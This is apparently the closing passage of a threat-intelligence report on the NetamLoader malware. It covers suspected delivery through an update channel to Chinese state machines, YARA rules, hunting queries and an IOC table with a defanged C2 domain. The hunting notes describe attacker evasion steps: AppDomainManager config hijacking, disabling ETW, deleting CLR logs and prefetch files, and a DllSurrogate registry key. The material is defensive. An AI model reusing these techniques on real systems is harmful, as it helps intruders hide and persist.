

*Figure 15 : https://cmgos.com/*



*Figure 16 : https://cmgos.com/#notice*

In August 2026[^4], China’s Ministry of State Security ordered certain state organizations to remove a specialized, government-only build of Windows 10 from their systems.



*Figure 17 : https://www.bloomberg.com/news/articles/2026-08-18/china-axing-microsoft-windows-from-state-agencies-ahead-of-plan*

A Microsoft spokesperson said the company was “**not aware of a security incident affecting this product**”, and the reports describe only unspecified data-security risks.



*Figure 18 : https://www.virustotal.com/gui/file/6089c68554a181003f3b5d1e767bbaaa2511f28c7690301f1d82c86cfc7bd072/telemetry*

This CAB was first uploaded on 11 September 2026, about three weeks later. That would **fit a timeline where defenders in China are hunting on those machines at the time**.

While it cannot be proven, it is highly probable that the victims are indeed **Chinese state entities**.

Even though the delivery method was not identified, a few hints can allow us to formulate hypotheses:

1.  The CAB lands in SoftwareDistribution\Download

2.  The loader deletes GetExtendedUpdateInfoHandler lines from the CMIT update agent’s logs

3.  Both samples are uploaded from China on VirusTotal

Together these point to delivery through the **CMIT-managed update path** (could be a compromised update server or some kind of a man-in-the-middle delivery attack).

## Detection and hunting

### YARA

```yara
rule NetamLoader_CAB_Stage1_Bundle {
  strings:
    $f1 = "fabric.config"
    $f2 = "PatchMyPC-ScriptRunner.exe.config"
    $f3 = "Resources.resx"
    $f4 = "Microsoft.HostIntegration.Connectors.dll"
  condition:
    uint32(0) == 0x4643534D and filesize < 20MB and all of them
}

rule NetamLoader_FabricConfig_ResXResourceSet {
  strings:
    $a = "customType" nocase
    $b = "System.Resources.ResXResourceSet"
    $c = /\(\s*[A-Za-z0-9_.\-]+\.resx\s*\)/
  condition:
    filesize < 4KB and all of them
}
```

### Endpoint hunting

- Files named fabric.config, Resources.resx or \*.exe.config containing appDomainManagerType under `C:\Windows\SoftwareDistribution\Download\`

- Process creation of PatchMyPC-ScriptRunner.exe from `\SoftwareDistribution\Download\Install\`[^5]

- Image loads by PatchMyPC-ScriptRunner.exe of Microsoft.HostIntegration.Connectors.dll together with System.Windows.Forms and PresentationFramework

- Behaviour reported by Kaspersky after stage 1: COMPlus_ETWEnabled=0 in a process environment, deletion of %LOCALAPPDATA%\Microsoft\CLR_v4.0\UsageLogs\PatchMyPC-ScriptRunner.exe.log and PATCHMYPC-SCRIPTRUNNER.EXE-\*.pf, creation of `HKLM\SOFTWARE\Classes\AppID\{ff259bcd-2f0a-44de-b34a-0092fec1d8a2}` with DllSurrogate, and outbound HTTPS from dllhost.exe

## IOCs

| **Type**                          | **Indicator**                                                                      | **Confidence** |
|-----------------------------------|------------------------------------------------------------------------------------|----------------|
| SHA-256 (CAB)                     | 6089c68554a181003f3b5d1e767bbaaa2511f28c7690301f1d82c86cfc7bd072                   | **HIGH**       |
| SHA-256 (Resources.resx)          | d787e1a3ce7cc678babcac74d20d1abd3c544defdf928f23673d9ebd7a5d37b6                   | **HIGH**       |
| SHA-256 (XAML-1)                  | b275d1d4e6d0d4387f0ae7100c03baf361437173aa1e9047065974d3e8d473e4                   | **HIGH**       |
| SHA-256 (fabric.config)           | ad8c0958ca194795153979fc9eb3edc4795c5db6fc306219061f8423e6d1fde9                   | **HIGH**       |
| SHA-256 (ScriptRunner.exe.config) | ea2aa07883796c4cf3b8b61559b37f7354d21716e44df3216d0c3300b251378e                   | **HIGH**       |
| Domain (C2 from Kaspersky)        | openaigpt4v\[.\]com                                                                | **HIGH**       |
| File path                         | C:\Windows\SoftwareDistribution\Download\Install\fabric.config                     | **HIGH**       |
| File path                         | C:\Windows\SoftwareDistribution\Download\Install\Resources.resx                    | **HIGH**       |
| File path                         | C:\Windows\SoftwareDistribution\Download\Install\PatchMyPC-ScriptRunner.exe.config | **HIGH**       |

## References

- <https://securelist.com/netamloader/121676/>

- <https://dotnettutorials.net/lesson/comparison-delegate-csharp/>

- <https://www.bloomberg.com/news/articles/2026-08-18/china-axing-microsoft-windows-from-state-agencies-ahead-of-plan>

- <https://betanews.com/article/china-orders-windows-10-government-edition/>

- <https://gist.github.com/djhohnstein/afb93a114b848e16facf0b98cd7cb57b>

- <https://www.nccgroup.com/media/jgpesax3/aspnet_resource_files_resx_deserialization_issues.pdf>

- <https://projectzero.google/2017/04/exploiting-net-managed-dcom.html>

- <https://github.com/pwntester/ysoserial.net>

---

**TLP:AMBER PAP:GREEN**

[^1]: https://securelist.com/netamloader/121676/

[^2]: https://securelist.com/netamloader/121676/

[^3]: https://dotnettutorials.net/lesson/comparison-delegate-csharp/

[^4]: https://www.bloomberg.com/news/articles/2026-08-18/china-axing-microsoft-windows-from-state-agencies-ahead-of-plan

[^5]: nb : collect the full command line as the -applicationid value unlocks stage 2 decryption
